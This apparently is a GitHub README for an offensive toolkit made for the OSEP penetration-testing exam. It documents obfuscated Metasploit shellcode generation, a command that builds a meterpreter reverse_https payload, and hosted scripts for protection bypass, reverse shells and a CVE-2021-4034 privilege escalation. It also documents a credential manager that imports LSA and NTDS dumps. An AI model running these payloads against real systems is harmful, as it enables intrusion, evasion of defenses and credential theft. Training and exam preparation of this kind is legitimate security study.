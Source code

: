 # osep-tools

## 3rd Party Library Version Info

* SharpHound [1.0.3](https://github.com/BloodHoundAD/SharpHound/commit/97f5d42bbb9c049e5f2ae14d6f9306358f92d8cf)
* CrackMapExec [5.2.1](https://github.com/byt3bl33d3r/CrackMapExec/commit/e9bcd09bd2c862200a40ecdc431fcf56f0ae5b67)

## msf api server

Create various format of shellcode with non-trivial transformer (xor, base64, caesar).

```
python3 shellcode_server.py -H localhost
```

![](images/screenshot-msfapiserv.png)

## AttackSuite

### Setup I

```
pip3 install -r requirements.txt
```

### Setup II

Tools to compile `CSharp EXE` & `linux elf` in Kali (ARM64).

```
sudo apt install -y mono-complete gcc-11-x86-64-linux-gnu
```

### Intro

Core Function, must accompany with `shellcode_server.py` now. Can integrate with other C2 framework such as Covenant.

```bash
python3 attackSuite.py -a win -b 64 -i 192.168.49.134 -p 80 -P 443 --payload meterpreter/reverse_https --chain xor-adwocdmwa-cae-11 --csc mcs -r 8888
```

```
usage: attackSuite.py [-h] [-a {win,nix}] [-b {32,64}] [-n {2,4}] -i IP -p PORT -P RPORT [-gP GPORT] [--payload PAYLOAD] [--inject INJECT] [--chome CHOME] [--mhome MHOME]
                      [--ps1 PS1] [--chain CHAIN] [--stageless] [--csc CSC] [--gcc GCC]

Python Shellcode Runner

optional arguments:
  -h, --help            show this help message and exit
  -a {win,nix}, --os {win,nix}
                        Choose OS
  -b {32,64}, --bits {32,64}
                        Choose process bits
  -n {2,4}, --netclr {2,4}
                        Choose .NET CLR version
  -i IP, --ip IP        HTTP Listener IP
  -p PORT, --port PORT  HTTP Listener Port
  -P RPORT, --rport RPORT
                        msf Listener Port
  --payload PAYLOAD     meterpreter payload used
  --inject INJECT       target process to inject
  --ps1 PS1             path to custom powershell script
  --chain CHAIN         payload transform expression, separated by "-" Ex. xor-ii1e12e1 => xor($buf, 'ii1e12e1') xor-eegg-cae-10 => cae(xor($buf, 'eegg'), 10)
  --stageless           create stageless payload (no interact with this http server)
```

![](images/screenshot-attackSuite.png)

### pre-defined scripts with fixed name

`http://<IP>:<PORT>/<name>`

| name | Function |
| ------ | ------ |
| /pk.ps1    | Invoke-KillPPL            |
| /flm.ps1   | Invoke-FLM                |
| /go.ps1    | met(x64) installutil      |
| /gm.ps1    | met(x64) msbuild          |
| /rev.ps1   | reverse flm shell         |
| /svc.ps1   | met(?) in service binary  |
| /svc_.ps1  | Invoke-ServicePwn         |
| /msi       | Write-MSI                 |
| /llpe      | linux LPE (cve-2021-4034) |

### arsenal integration

```
alias a="arsenal"
cheatsheet output: $HOME/.cheats/osep_hunter.md    ( Only exist when attackSuite is runing )
```

![](images/screenshot-attackSuite-arsenal.png)
                                        
## centre credential/host/record manager
                                        
Post-Exploitation Enumeration Tool designed for OSEP EXAM
                                        
### Setup

```
pip3 install -r requirements-centre.txt
```

### Intro

```
usage: centre.py [-h] [--cme] [--rdp] [--import-lsa _LSA] [--import-ntds _NTDS] [--import-mini _MINIDUMP] [--import-nmap _NMAPXML] [-t ITARGET_IP]
                 [-T ITARGET_NAME] [--reset] [--debug] [--noproxy]

optional arguments:
  -h, --help            show this help message and exit
  --cme
  --rdp
  --import-lsa _LSA
  --import-ntds _NTDS
  --import-mini _MINIDUMP
  --import-nmap _NMAPXML
  -t ITARGET_IP, --itarget-ip ITARGET_IP
                        must be IPv4 format
  -T ITARGET_NAME, --itarget-name ITARGET_NAME
  --reset
  --debug
  --noproxy
```

execution result
```
+----+---------------+--------+----------------------------------+------------+
|    | User          | Pass   | NTLM                             | Domain     |
|----+---------------+--------+----------------------------------+------------|
|  0 | sqlsvc        |        | ******************************** | ******.*** |
+----+---------------+--------+----------------------------------+------------+
+----+----------------+----------+--------------------+
|    | IP             | HOST     | Ports              |
|----+----------------+----------+--------------------|
|  0 | 172.16.***.*** | dc04     | 5985 3389 445      |
|  1 | 172.16.***.*** | sql05    | 1433 445 5985 3389 |
|  2 | 172.16.***.*** | sql07    | 1433 445 5985 3389 |
|  3 | 172.16.***.*** | client09 | 3389 445           |
+----+----------------+----------+--------------------+

==== RCE machines ====
+----+----------------+---------------+--------+----------------------------------+------------+------------+----------+
|    | IP             | User          | Pass   | NTLM                             | Domain     | Protocol   |   Status |
|----+----------------+---------------+--------+----------------------------------+------------+------------+----------|
|  0 | 172.16.***.*** | sqlsvc        |        | ******************************** | ******.*** | cme-mssql  |        1 |
+----+----------------+---------------+--------+----------------------------------+------------+------------+----------+
======================
```
